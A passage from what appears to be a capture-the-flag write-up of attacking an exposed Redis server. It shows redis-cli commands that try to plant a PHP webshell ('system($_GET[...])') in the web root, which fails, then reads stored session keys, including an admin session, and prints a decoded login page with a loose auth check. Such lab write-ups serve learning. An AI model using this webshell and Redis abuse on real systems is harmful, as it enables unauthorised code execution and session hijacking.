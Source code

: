 Note: You can learn about Redis in [Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) by HackTricks.

Couldn’t write a webshell :(

```bash
10.129.161.15:6379> config set dir /var/www/developers/
OK
10.129.161.15:6379> config set dbfilename dusk.php
OK
10.129.161.15:6379> set test "<?php system($_GET['fc8358bcf09e4b3947d1975622a9df14']);?>"
OK
10.129.161.15:6379> save
(error) ERR
```

There is a database with the active session cookies.

```bash
> INFO keyspace
# Keyspace
db0:keys=5,expires=4,avg_ttl=414800

> KEYS *
1) "PHPREDIS_SESSION:0vrb3ojds81mapi4d7k3dgqo2c"
2) "PHPREDIS_SESSION:vuoha0ekbp8995b6ajii8h688b"
3) "PHPREDIS_SESSION:puvaukvid2hbgj9h1s3b00i931"
```

The empty one belongs to the developers vHost subdomain.

```bash
> get "PHPREDIS_SESSION:0vrb3ojds81mapi4d7k3dgqo2c"
""

get "PHPREDIS_SESSION:puvaukvid2hbgj9h1s3b00i931"
"username|s:7:\"testing\";role|s:5:\"admin\";"
```

Went back to the *index.php* file. It uses a loose comparison to validate the *auth* flag.

```bash
echo -n PD9waHANCnJlcXVp<SNIP> | base64 -d; echo
<?php
require './bootstrap.php';

if (!isset($_SESSION['auth']) or $_SESSION['auth'] != True) {
    die(header('Location: /login.php'));
}

if (!isset($_GET['page']) or empty($_GET['page'])) {
    die(header('Location: /?page=home'));
}

$view = 1;

?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="assets/js/tailwind.js"></script>
    <title>Developers Collect</title>
</head>

```